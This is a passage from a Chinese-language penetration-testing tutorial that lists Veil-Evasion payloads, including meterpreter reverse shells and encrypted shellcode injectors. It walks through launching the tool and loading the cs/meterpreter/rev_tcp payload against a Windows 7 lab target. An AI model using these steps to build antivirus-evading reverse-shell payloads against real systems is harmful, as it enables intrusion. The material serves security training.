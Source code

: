 ```
  12)  powershell/shellcode_inject/psexec_virtual
  13)  powershell/shellcode_inject/virtual
  14)  python/meterpreter/rev_http
  15)  python/meterpreter/rev_http_contained
  16)  python/meterpreter/rev_https
  17)  python/meterpreter/rev_https_contained
  18)  python/meterpreter/rev_tcp
  19)  python/shellcode_inject/aes_encrypt
  20)  python/shellcode_inject/arc_encrypt
  21)  python/shellcode_inject/base64_substitution
  22)  python/shellcode_inject/des_encrypt
  23)  python/shellcode_inject/flat
  24)  python/shellcode_inject/letter_substitution 
```

从输出的信息中，可以看到有 24 个可用的攻击载荷。此时可以利用任何一个攻击载荷，进行渗透攻击。

【实例 6-5】演示使用 Veil 工具中的载荷（本例以 cs/meterpreter/rev_tcp 为例），进行渗透攻击（这里以 Windows 7 作为攻击靶机）。具体操作步骤如下所示。

（1）启动 Veil 工具。执行命令如下所示：

```
root@kali:~# veil-evasion 
```

执行以上命令后，将显示如下所示的信息：

```
===============================================
 Veil-Evasion | [Version]: 2.4.3
===============================================
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================
Main Menu
  24 payloads loaded
Available commands:
  use      use a specific payload
  info     information on a specific payload
  list     list available payloads
  update   update Veil to the latest version
  clean    clean out payload folders
  checkvt  check payload hashes vs. VirusTotal
  exit     exit Veil
[>] Please enter a command: 
```

在输出的信息中看到[>] Please enter a command:提示符，就表示 Veil 登录成功了。

（2）选择 cs/meterpreter/rev_tcp 攻击载荷。在攻击载荷列表中，cs/meterpreter/rev_tcp 载荷的编号是 5。执行命令如下所示：

```
[>] Please enter a command: use 5
===============================================
 Veil-Evasion | [Version]: 2.4.3
===============================================
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================
Payload: cs/meterpreter/rev_tcp loaded
Required Options:
Name            Current Value   Description
 ----           -------------   --------------------------
 LHOST                          IP of the metasploit handler
 LPORT          4444            Port of the metasploit handler
 compile_to_exe Y               Compile to an executable
Available commands:
  set       set a specific option value
  info      show information about the payload
  generate  generate payload
```

 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework